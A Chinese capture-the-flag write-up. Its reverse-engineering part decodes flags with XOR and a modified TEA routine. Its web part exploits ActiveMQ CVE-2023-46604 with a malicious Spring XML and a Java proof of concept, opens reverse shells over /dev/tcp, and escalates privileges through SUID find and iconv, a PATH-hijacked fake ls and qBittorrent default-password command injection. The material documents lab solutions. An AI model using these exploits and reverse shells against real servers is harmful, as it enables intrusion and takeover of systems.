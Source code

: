 ## REVERSE
### change

感觉没啥好讲的

```CPP
#include <iostream>
#include <cstring>

using namespace std;

int main()
{
    char key[10] = "am2qasl";
    char flag[100] = {19,  10,  93,  28,  14,   8,  35,   6,  11,  75, 
   56,  34,  13,  28,  72,  12, 102,  21,  72,  27, 
   13,  14,  16,  79};
    int i;

    for(i = 0; i < 24; i++)
    {
        if(i % 2)
        {
            flag[i] ^= key[i % 7];
        }
        else
        {
            flag[i] = (flag[i] - 10) ^ key[i % 7];
        }
        printf("%c", flag[i]);
    }
    return 0;
}
```
### crackme2
通过SEH触发SMC，绕过反调后可以拿到真正的函数。写z3，代码过长了，就不放了。

### again!
bin1的python字节码读出来运行后可以得出来一个md5值`a405b5d321e446459d8f9169d027bd92`。虽然不知道为什么，但是拿着它挨个跟bin2异或一遍可以得到一个PE文件。

这个文件里面有一个魔改的TEA。可以写出代码：

```CPP
#include <iostream>
#include <cstring>

using namespace std;

int main()
{
    unsigned char flag[32] = {  195, 181, 111,  80,  69, 143,  53, 185, 199, 232,  26, 201, 128, 226,  32,  56, 131, 186,  58, 209,  84, 245,  92, 151, 107,   3,  82,  67,  71,   4, 210,  28};
    unsigned int i, sum = 0, key[4] = {0x1234, 0x2341, 0x3412, 0x4123};
    for(i = 0; i < 12; i++)
    {
        sum += 0x7937B99E;
    }
    for(i = 0; i < 12; i++)
    {
        *((unsigned int*)(&flag[28])) -= (((*((unsigned int*)(&flag[24])) ^ key[(sum >> 2) & 3 ^ 3]) + (sum ^ *((unsigned int*)(&flag[0])))) ^ (((16 * *((unsigned int*)(&flag[24]))) ^ (*((unsigned int*)(&flag[0])) >> 3)) + ((*((unsigned int*)(&flag[24])) >> 5) ^ (4 * *((unsigned int*)(&flag[0]))))));
        *((unsigned int*)(&flag[24])) -= ((*((unsigned int*)(&flag[20])) ^ key[(sum >> 2) & 3 ^ 2]) + (sum ^ *((unsigned int*)(&flag[28])))) ^ (((16 * *((unsigned int*)(&flag[20]))) ^ (*((unsigned int*)(&flag[28])) >> 3)) + ((*((unsigned int*)(&flag[20])) >> 5) ^ (4 * *((unsigned int*)(&flag[28])))));
        *((unsigned int*)(&flag[20])) -= ((sum ^ *((unsigned int*)(&flag[24]))) + (*((unsigned int*)(&flag[16])) ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * *((unsigned int*)(&flag[16]))) ^ (*((unsigned int*)(&flag[24])) >> 3)) + ((*((unsigned int*)(&flag[16])) >> 5) ^ (4 * *((unsigned int*)(&flag[24])))));
        *((unsigned int*)(&flag[16])) -= ((sum ^ *((unsigned int*)(&flag[20]))) + (*((unsigned int*)(&flag[12])) ^ key[(sum >> 2) & 3])) ^ (((16 * *((unsigned int*)(&flag[12]))) ^ (*((unsigned int*)(&flag[20])) >> 3)) + ((*((unsigned int*)(&flag[12])) >> 5) ^ (4 * *((unsigned int*)(&flag[20])))));
        *((unsigned int*)(&flag[12])) -= ((sum ^ *((unsigned int*)(&flag[16]))) + (*((unsigned int*)(&flag[8])) ^ key[(sum >> 2) & 3 ^ 3])) ^ (((16 * *((unsigned int*)(&flag[8]))) ^ (*((unsigned int*)(&flag[16])) >> 3)) + ((*((unsigned int*)(&flag[8])) >> 5) ^ (4 * *((unsigned int*)(&flag[16])))));
        *((unsigned int*)(&flag[8])) -= ((sum ^ *((unsigned int*)(&flag[12]))) + (*((unsigned int*)(&flag[4])) ^ key[(sum >> 2) & 3 ^ 2])) ^ (((16 * *((unsigned int*)(&flag[4]))) ^ (*((unsigned int*)(&flag[12])) >> 3)) + ((*((unsigned int*)(&flag[4])) >> 5) ^ (4 * *((unsigned int*)(&flag[12])))));
        *((unsigned int*)(&flag[4])) -= ((sum ^ *((unsigned int*)(&flag[8]))) + (*((unsigned int*)(&flag[0])) ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * *((unsigned int*)(&flag[0]))) ^ (*((unsigned int*)(&flag[8])) >> 3)) + ((*((unsigned int*)(&flag[0])) >> 5) ^ (4 * *((unsigned int*)(&flag[8])))));
        *((unsigned int*)(&flag[0])) -= (((sum ^ *((unsigned int*)(&flag[4]))) + (*((unsigned int*)(&flag[28])) ^ key[(sum >> 2) & 3])) ^ (((16 * *((unsigned int*)(&flag[28]))) ^ (*((unsigned int*)(&flag[4])) >> 3)) + ((*((unsigned int*)(&flag[28])) >> 5) ^ (4 * *((unsigned int*)(&flag[4]))))));
        sum -= 0x7937B99E;
    }
    for(i = 0; i < 32; i++)
    {
        printf("%c", flag[i]);
    }
    return 0;
}
```

## WEB

### Reverse and Escalation.

可以看到ActiveMQ的版本。直接打ActiveMQ的反序列化RCE漏洞CVE-2023-46604。把学长的exploit借来用。

构造一个恶意xml，开个http服务提供给题目容器。另外开ncat监听9001、9002端口

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value><![CDATA[(sh)0>/dev/tcp/<octane's ip>/9001]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

poc

```java
import javax.xml.crypto.Data;
import java.io.DataOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.Socket;

public class ScratchExploit {
    public static void main(String[] args) throws IOException {
        Socket socket = new Socket("<ip>", 61616);
        OutputStream os = socket.getOutputStream();
        DataOutputStream dos = new DataOutputStream(os);
        dos.writeInt(0);// size
        dos.writeByte(31);// type
        dos.writeInt(0);// CommandId
        dos.writeBoolean(false);// Command response required
        dos.writeInt(0);// CorrelationId

        // body
        dos.writeBoolean(true);
        // UTF
        dos.writeBoolean(true);
        dos.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
        dos.writeBoolean(true);
        dos.writeUTF("http://<octane's ip>:9000/octane_attack.xml");

        dos.close();
        os.close();
        socket.close();
    }
}
```

直接注入基本的反弹bash的命令不一定每次都能成功。因此咱用了个比较稳的反弹shell方法。先在9001端口拿到一个无回显sh，再进一步运行命令把shell传递给9002端口，最终得到满血的bash。

```sh
bash -c "bash -i >& /dev/tcp/<octane's ip>/9002 0>&1"
```

然后就可以在bash上玩了。shell得到的是activemq用户，而/flag要root才能读，需要提权。枚举一下容器里的有用的东西，可以发现find有粘滞位。简单suid提权，用find执行命令就可以用root读取flag了。

```bash
find LICENSE -exec cat /flag \;
```

### Reverse and Escalation. II

前面打ActiveMQ和得到反弹shell的步骤和上一题一样的。从得到bash开始。

还是activemq低权限用户。/usr/bin/find依然有粘滞位。但find好像被换成了个奇怪的东西。把假find用curl发送过来研究一下。可以发现是需要预测随机数38次，过了随机数之后会以root权限用`system();`执行系统ls命令。

随机数种子用的是当前时间time_t，应该是精确到秒的，很容易预测。而对于它只会执行ls的问题，咱最后想出来了个好办法。`system();`函数继承当前用户的环境变量，因此可以试试把环境变量换掉，让它执行一个咱自己构造的假ls。

先写个假ls呢

```C
// ls.c
#include <stdio.h>
#include <stdlib.h>


int main()
{
    printf("Octane@ttack!\n");
    system("cat /flag");
    return 0;
}
```

再写个预测随机数的

```C
// octane_attack.c
#include <time.h>
#include <stdlib.h>


int main()
{
    char str[500] = "find";
    time_t seed = time(0);
    srand(seed);

    for (int i=0;i<39;i++)
    {
        int a = rand() % 23333;
        int b = rand() % 23333;
        sprintf(str, "%s %d", str, a+b);
    }

    system(str);
    return 0;
}
```

把上面两个exploit编译之后上传到题目容器的activemq目录中。chmod +x。

再新建一个子目录，把咱刚才传上来的假ls移动进去。把该子目录的路径加在用户环境变量path的最前面。

然后运行主程序octane_attack。octane_attack就可以根据相同的秒数预测出所有38个随机答案，再调用find并传入答案。find在校验答案之后会运行`system("ls");`。而由于环境变量path已经被咱换掉了，咱构建的假ls会被`system();`优先执行，从而实现root权限下的`cat /flag`命令执行，读到flag。


### Whose Home

居然是qb，咱天天玩的东西，太熟悉不过了。

admin+adminadmin默认账号密码登进去，可以从"新增torrent时运行外部程序"注入命令。用`bash -c "bash -i >& /dev/tcp/<octane's ip>/9002 0>&1"`反弹一个bash看看。这次发现iconv是有粘滞位的，还是用suid提权读flag。

```bash
iconv -f ASCII -t ASCII /flag
```
